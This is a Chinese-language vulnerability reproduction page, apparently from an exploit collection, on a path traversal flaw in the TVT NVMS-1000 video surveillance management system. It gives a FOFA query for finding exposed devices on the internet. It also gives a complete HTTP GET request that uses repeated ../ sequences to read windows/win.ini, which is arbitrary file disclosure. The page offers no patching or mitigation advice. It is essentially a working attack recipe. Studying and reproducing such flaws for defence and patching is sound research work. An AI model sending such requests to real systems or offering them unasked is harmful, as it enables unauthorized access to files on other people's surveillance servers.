 # TVT数码科技 NVMS-1000 路径遍历漏洞

## 漏洞描述

TVT数码科技 TVT NVMS-1000是中国TVT数码科技公司的一套网络监控视频管理系统。 TVT数码科技 TVT NVMS-1000中存在路径遍历漏洞。远程攻击者可通过发送包含/../的特制URL请求利用该漏洞查看系统上的任意文件。

## 漏洞影响

> [!NOTE]
>
> TVT NVMS-1000

## FOFA

> [!NOTE]
>
> app="TVT-NVMS-1000"

## 漏洞复现

登录页面如下

![](image/tvt-1.png)

发送请求包读取文件

```
GET /../../../../../../../../../../../../windows/win.ini HTTP/1.1
Host: 
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/90.0.4430.93 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Connection: close
```

![](image/tvt-2.png)
